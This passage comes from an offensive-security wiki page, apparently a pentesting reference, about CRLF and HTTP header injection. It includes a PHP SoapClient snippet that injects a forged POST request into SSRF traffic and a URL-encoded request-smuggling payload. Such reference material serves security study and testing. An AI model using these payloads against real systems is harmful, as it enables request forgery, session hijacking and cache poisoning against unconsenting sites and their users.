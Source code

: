 #### An example of HTTP Header Injection to extract sensitive data

If an attacker is able to inject the HTTP headers that activate CORS (Cross Origin Resource Sharing), he can use javascript to access resources that are otherwise protected by SOP (Same Origin Policy) which prevents sites from different origins to access each other.

### New HTTP request in SSRF

Abusing CRLF injection you can **craft a new HTTP request and inject it**.\
A good example can be done using the `SoapClient` deserialization gadget from in PHP. This class is **vulnerable to CRLF** inside the `user_agent` parameter allowing to i**nsert new headers and body content**. However, you can even be able to abuse this vulnerability to **inject a new HTTP request:**

```php
$target = 'http://127.0.0.1:9090/test'; 
$post_string = 'variable=post value';
$crlf = array(
    'POST /proxy HTTP/1.1',
    'Host: local.host.htb',
    'Cookie: PHPSESSID=[PHPSESSID]',
    'Content-Type: application/x-www-form-urlencoded',
    'Content-Length: '.(string)strlen($post_string),
    "\r\n",
    $post_string
);

$client = new SoapClient(null,
    array(
        'uri'=>$target,
        'location'=>$target,
        'user_agent'=>"IGN\r\n\r\n".join("\r\n",$crlf)
    )
);

#Put a nc listening in port 9090
$client->__soapCall("test", []);
```

### Header Injection to Request Smuggling

You can inject essential headers to ensure the **back-end keeps the connection open** after responding to the initial request:

```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0a HTTP/1.1
```

Then, **specify a second request**. Here you have a **classic** [**request smuggling**](http-request-smuggling/) \*\*\*\* with **extra** **headers/body** appended by the server after the injection.\
Here's two of the many options for cross-user exploitation.

Specifying a **malicious prefix** to poison either the next user's request, or a web cache:
